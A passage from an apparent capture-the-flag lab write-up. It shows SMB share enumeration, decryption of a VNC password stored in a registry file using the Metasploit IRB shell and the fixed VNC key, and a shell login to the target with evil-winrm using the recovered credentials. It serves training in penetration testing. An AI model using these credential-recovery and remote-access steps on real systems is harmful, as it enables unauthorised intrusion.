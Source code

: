 ```bash
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (5.1 KiloBytes/sec) (average 5.1 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (2.8 KiloBytes/sec) (average 4.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (14.2 KiloBytes/sec) (average 7.1 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (5.6 KiloBytes/sec) (average 6.7 KiloBytes/sec)
smb: \> 
```

We found a bunch of files there and downloaded them using `mget *`.

Let's check what's on the files.

On `IT/Email Archives` we find the following email from Steve:

![](1.png)

On `IT/Temp/s.smith/VNC Install.reg` we find this line `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`.

I found this [github repository](https://github.com/frizb/PasswordDecrypts) showing how to decrypt this password using `metasploit`.

```shell
[msf](Jobs:0 Agents:0) >> irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> false
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"

```

We got the password of `s.smith`.

## **Foothold**

### WinRM

Using `evil-winrm` let's connect to the target.

```shell
$ evil-winrm -i cascade.local -u s.smith -p sT333ve2   

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> 
```
